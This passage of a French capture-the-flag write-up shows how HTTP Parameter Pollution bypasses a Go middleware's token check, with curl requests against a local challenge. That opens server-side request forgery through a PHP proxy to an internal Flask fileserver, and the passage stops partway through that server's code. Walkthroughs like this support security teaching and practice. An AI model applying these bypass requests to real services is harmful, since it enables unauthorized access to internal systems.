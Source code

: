 L'application GO agit en tant que middleware et transmet la requête à une autre application "proxy" développée PHP !

Analysons le code PHP :
- on connait désormais la valeur de `token`
- ce `token` est indispensable pour utiliser le paramètre  GET `url` qui permet d'interroger une URL arbitraire
- le paramètre `url` est analysé par la fonction `waf` qui parse l'URL et interdit l'utilisation de certains caractères pour des raisons de sécurité.

Essayons de faire une requête vers un site arbitraire depuis l'application GO :

```console
pun@ctf:~$ curl 'http://127.0.0.1:45003/?proxydebug=yesplz&token=DEEZNUTS&url=https://httpstat.us/200'
Not authorized.
```

Sans surprise, le code dans l'application GO ne nous laisse pas utiliser le paramètre `token` :
```go
        if r.URL.Query().Get("token") != "" && ip != "127.128.129.130" {
            fmt.Fprintf(w, "Not authorized."); return
        }
```

Il est possible de contourner cette restriction grâce au **HTTP Parameter Pollution** (HPP) : [HPP by swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/HTTP%20Parameter%20Pollution).

Les différents langages ne parsent pas les paramètres de la même manière. Qu'est-ce qui se passe quand on envoie `param=a&param=b` ?

| Technology                                      | Parsing Result          |outcome (param=)|
| ------------------                              |---------------          |:----------------:|
| Golang net/http - `r.URL.Query().Get("param")`  |First occurrence         |a                 |
| PHP/Apache `$_GET['param']`                     |Last occurrence          |b                 |

Dans notre cas, l'application GO va considérer la première valeur alors que PHP plutôt la dernière valeur. Et comme l'URI est transmise telle quelle au proxy avec `r.RequestURI`, il est possible d'exploiter le HPP.

```console
pun@ctf:~$ curl 'http://127.0.0.1:45003/?proxydebug=yesplz&token=&token=DEEZNUTS&url=https://httpstat.us/200'
<pre>200 OK</pre>
```

## Requêtes vers l'appli fileserver.internal

Maintenant qu'on peut requêter n'importe quelle URL, on peut accéder à `fileserver.internal` pour atterir cette fois-ci sur une application Flask en python.

> http://127.0.0.1:45003/?proxydebug=yesplz&token=&token=DEEZNUTS&url=http://fileserver.internal

```python
from flask import Flask, request, Response
import os

app = Flask(__name__)
root_directory = "files/"

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/ls')
def ls():
    directory = root_directory
```